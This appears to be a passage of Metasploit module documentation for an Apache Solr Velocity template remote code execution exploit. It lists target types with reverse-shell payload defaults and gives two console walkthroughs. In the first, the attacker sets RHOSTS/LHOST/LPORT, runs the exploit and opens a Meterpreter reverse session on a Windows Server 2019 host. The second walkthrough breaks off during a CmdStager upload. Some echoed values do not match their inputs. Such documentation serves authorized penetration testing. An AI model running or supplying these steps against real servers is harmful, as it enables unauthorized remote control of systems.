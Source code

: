 *nix systems have 2 targets:
1. Unix (in memory): Uses command execution. Payload defaults to `cmd/unix/reverse_bash`. Output may be returned depending on payload used.
2. Linux (dropper): Uses `CmdStager`. Payload defaults to `linux/x86/meterpreter/reverse_tcp`

## Examples

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using PowerShell
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 2
TARGET => 2
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[+] Found Powershell at C:\Windows\System32\WindowsPowerShell\v1.0\
[*] Sending stage (180291 bytes) to 192.168.137.155
[*] Meterpreter session 1 opened (192.168.137.128:4444 -> 192.168.137.155:50210) at 2020-03-29 00:04:01 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
gSystem Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication, using CmdStager
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 192.168.137.155
RHOSTS => 192.168.137.132
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 192.168.137.128
LHOST => 192.168.137.128
msf5 exploit(multi/http/solr_velocity_rce) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 3
TARGET => 3
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 192.168.137.128:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[*] Found core(s): techproducts
[*] Targeting core 'techproducts'
[*] Sending CmdStager payload...
[*] Command Stager progress -   7.05% done (7160/101541 bytes)
```